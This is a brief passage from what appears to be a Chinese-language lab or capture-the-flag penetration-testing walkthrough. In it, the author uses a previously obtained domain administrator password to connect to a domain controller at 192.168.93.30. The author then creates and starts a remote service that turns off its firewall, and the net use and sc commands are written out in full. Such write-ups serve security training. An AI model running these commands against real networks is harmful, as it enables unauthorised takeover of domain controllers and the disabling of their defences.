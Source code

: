 ![image-20250318150617331](./assets/image-20250318150617331.png)

- 成功拿下权限,最后一台`192.168.93.30`,还记得我们前面拿的域管理员账号吗
- 现在直接连接域控关闭防火墙

```cmd
net use \\192.168.93.30\ipc$ "Whoami2021" /user:"Administrator"
sc \\192.168.93.30 create unablefirewall binpath= "netsh advfirewall set allprofiles state off"
sc \\192.168.93.30 start unablefirewall
```

![image-20250318150946353](./assets/image-20250318150946353.png)

